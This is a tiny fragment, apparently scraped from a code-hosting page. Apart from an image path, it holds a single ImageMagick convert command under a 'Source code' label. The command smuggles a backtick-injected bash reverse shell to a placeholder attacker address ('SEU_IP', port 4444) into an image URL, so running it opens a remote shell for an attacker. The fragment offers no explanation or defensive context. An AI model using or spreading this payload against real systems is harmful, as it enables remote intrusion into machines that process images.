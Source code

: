 convert -verbose -debug coders 'https://SEU_IP/shell.jpg?`bash -i >& /dev/tcp/SEU_IP/4444 0>&1`' out.png
